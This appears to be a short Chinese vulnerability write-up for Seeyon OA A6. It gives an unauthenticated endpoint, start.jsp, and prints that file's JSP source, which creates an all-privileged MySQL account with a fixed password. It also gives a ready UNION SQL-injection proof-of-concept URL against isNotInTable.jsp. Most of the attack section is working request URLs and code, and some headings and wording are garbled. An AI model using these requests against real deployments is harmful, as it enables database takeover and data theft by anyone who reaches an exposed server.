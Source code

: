 ```yaml
---
title: "致远OA A6 重置数据库账号密码漏洞"
id: zhfly3349
---
```


# 致远OA A6 重置数据库账号密码漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

### 重置数据库账号密码防御

```
http://www.0-sec.org/yyoa/ext/byoa/start.jsp 
```

该文件的代码为：

```
<%	Connection conn = null;	PreparedStatement pstmt = null;	String sql = "create user byoa IDENTIFIED by 'byoa'";	try {		conn = null;//net.btdz.oa.common.ConnectionPoolBean.getConnection();		pstmt = conn.prepareStatement(sql);		out.print(pstmt.executeUpdate());		sql = "grant all on *.* to byoa";		pstmt = conn.prepareStatement(sql);		out.println(pstmt.executeUpdate());		pstmt.close();		sql = "update mysql.user set password=password('byoa') where user='byoa'";		pstmt = conn.prepareStatement(sql);		out.println(pstmt.executeUpdate());		pstmt.close();		sql = "flush privileges";		pstmt = conn.prepareStatement(sql);		out.print(pstmt.executeUpdate());		pstmt.close();		//conn.close();	} catch (Exception ex) {					out.println(ex.getMessage());	}%> 
```

可以抛光该文件没有验证任何权限，便进行了重置数据库用户byoa的密码为：byoa

### mysql + jsp注射

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp 
```

### poc

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp?user_ids=(17) union all select user()%23{'success':false,'errors':'root@localhost'} 
```